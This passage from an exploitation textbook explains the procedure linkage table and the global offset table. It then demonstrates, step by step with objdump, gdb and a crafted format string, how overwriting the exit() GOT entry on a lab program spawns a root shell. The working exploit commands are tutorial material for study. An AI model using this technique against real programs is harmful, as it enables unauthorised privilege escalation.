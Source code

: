 # *__Overwriting the Global Offset Table__*

Since a program could use a function in a _shared library_ many times, it’s useful to have a table to reference all the functions. Another special section in compiled programs is used for this purpose, the _procedure linkage table_ (__PLT__).

This section consists of many jump instructions, each one corresponding to the address of a function. It works like a springboard—each time a _shared function_ needs to be called, control will pass through the _PLT_.

An object dump disassembling the _PLT section_ in the vulnerable format string program (_fmt_vuln.c_) shows these jump instructions:

<pre style="color: white;">
reader@hacking:~/booksrc $ objdump -d -j .plt ./fmt_vuln

./fmt_vuln: file format elf32-i386

Disassembly of section .plt:

080482b8 &lt;__gmon_start__@plt-0x10&gt;:
80482b8:        ff 35 6c 97 04 08       pushl 0x804976c
80482be:        ff 25 70 97 04 08       jmp *0x8049770
80482c4:        00 00                   add %al,(%eax)
...

080482c8 &lt;__gmon_start__@plt&gt;:
80482c8:        ff 25 74 97 04 08       jmp *0x8049774
80482ce:        68 00 00 00 00          push $0x0
80482d3:        e9 e0 ff ff ff          jmp 80482b8 &lt;_init+0x18&gt;

080482d8 &lt;__libc_start_main@plt&gt;:
80482d8:        ff 25 78 97 04 08       jmp *0x8049778
80482de:        68 08 00 00 00          push $0x8
80482e3:        e9 d0 ff ff ff          jmp 80482b8 &lt;_init+0x18&gt;

080482e8 &lt;strcpy@plt&gt;:
80482e8:        ff 25 7c 97 04 08       jmp *0x804977c
80482ee:        68 10 00 00 00          push $0x10
80482f3:        e9 c0 ff ff ff          jmp 80482b8 &lt;_init+0x18&gt;

080482f8 &lt;printf@plt&gt;:
80482f8:        ff 25 80 97 04 08       jmp *0x8049780
80482fe:        68 18 00 00 00          push $0x18
8048303:        e9 b0 ff ff ff          jmp 80482b8 &lt;_init+0x18&gt;

08048308 &lt;exit@plt&gt;:
8048308:        ff 25 84 97 04 08       jmp *0x8049784
804830e:        68 20 00 00 00          push $0x20
8048313:        e9 a0 ff ff ff          jmp 80482b8 &lt;_init+0x18&gt;

reader@hacking:~/booksrc $
</pre>

One of these jump instructions is associated with the _exit()_ function, which is called at the end of the program. If the jump instruction used for the _exit()_ function can be manipulated to direct the execution flow into shellcode instead of the _exit()_ function, a root shell will be spawned. Below, the procedure linking table is shown to be read only.

<pre style="color: white;">
reader@hacking:~/booksrc $ objdump -h ./fmt_vuln | grep -A1 "\ .plt\ "
10 .plt         00000060 080482b8 080482b8 000002b8 2**2
                CONTENTS, ALLOC, LOAD, READONLY, CODE
</pre>

But closer examination of the jump instructions (shown in bold below) reveals that they aren’t jumping to addresses but to _pointers to addresses_. For example, the actual address of the _printf()_ function is stored as a pointer at the memory address _0x08049780_, and the _exit()_ function’s address is stored at _0x08049784_.

<pre style="color: white;">
080482f8 &lt;printf@plt&gt;:
80482f8:        ff 25 80 97 04 08       jmp <strong><em>*0x8049780</em></strong>
80482fe:        68 18 00 00 00          push $0x18
8048303:        e9 b0 ff ff ff          jmp 80482b8 &lt;_init+0x18&gt;

08048308 &lt;exit@plt&gt;:
8048308:        ff 25 84 97 04 08       jmp <strong><em>*0x8049784</em></strong>
804830e:        68 20 00 00 00          push $0x20
8048313:        e9 a0 ff ff ff          jmp 80482b8 &lt;_init+0x18&gt;
</pre>

These addresses exist in another section, called the _global offset table_ (__GOT__), which is writable. These addresses can be directly obtained by displaying the _dynamic relocation entries_ for the binary by using `objdump`.

<pre style="color: white;">
reader@hacking:~/booksrc $ objdump -R ./fmt_vuln

./fmt_vuln: file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET TYPE VALUE
08049764 R_386_GLOB_DAT __gmon_start__
08049774 R_386_JUMP_SLOT __gmon_start__
08049778 R_386_JUMP_SLOT __libc_start_main
0804977c R_386_JUMP_SLOT strcpy
08049780 R_386_JUMP_SLOT printf
<strong><em>08049784 R_386_JUMP_SLOT exit</em></strong>

reader@hacking:~/booksrc $
</pre>

This reveals that the address of the _exit()_ function (shown in bold above) is located in the __GOT__ at _0x08049784_. If the address of the shellcode is overwritten at this location, the program should call the shellcode when it thinks it’s calling the _exit()_ function.

As usual, the shellcode is put in an environment variable, its actual location is predicted, and the format string vulnerability is used to write the value. Actually, the shellcode should still be located in the environment from before, meaning that the only things that need adjustment are the first _16_ bytes of the format string. The calculations for the __%x__ format parameters will be done once again for clarity. In the output below, the address of the shellcode __(#1)__ is written into the address of the exit() function __(#2)__.

<pre style="color: white;">
reader@hacking:~/booksrc $ export SHELLCODE=$(cat shellcode.bin)
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./fmt_vuln
SHELLCODE will be at #1 0xbffff9ec
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0xbfff - 8
$1 = 49143
(gdb) p 0xf9ec - 0xbfff
$2 = 14829
(gdb) quit
reader@hacking:~/booksrc $ objdump -R ./fmt_vuln

./fmt_vuln: file format elf32-i386

DYNAMIC RELOCATION RECORDS
   OFFSET     TYPE              VALUE
   08049764   R_386_GLOB_DAT    __gmon_start__
   08049774   R_386_JUMP_SLOT   __gmon_start__
   08049778   R_386_JUMP_SLOT   __libc_start_main
   0804977c   R_386_JUMP_SLOT   strcpy
   08049780   R_386_JUMP_SLOT   printf
#2 08049784   R_386_JUMP_SLOT   exit

reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x86\x97\x04\x08\x84\x97\x04\
x08")%49143x%4\$hn%14829x%5\$hn
The right way to print user-controlled input:
????%49143x%4$hn%14829x%5$hn
The wrong way to print user-controlled input:
????
b7fe75fc
[*] test_val @ 0x08049794 = -72 0xffffffb8

sh-3.2# whoami
root
sh-3.2#
</pre>

When _fmt_vuln.c_ tries to call the _exit()_ function, the address of the _exit()_ function is looked up in the __GOT__ and is jumped to via the __PLT__. Since the actual address has been switched with the address for the shellcode in the environment, a root shell is spawned.

Another advantage of overwriting the _GOT_ is that the _GOT entries_ are fixed per binary, so a different system with the same binary will have the same _GOT entry_ at the same address.

The ability to overwrite any arbitrary address opens up many possibilities for exploitation. Basically, any section of memory that is writable and contains an address that directs the flow of program execution can be targeted.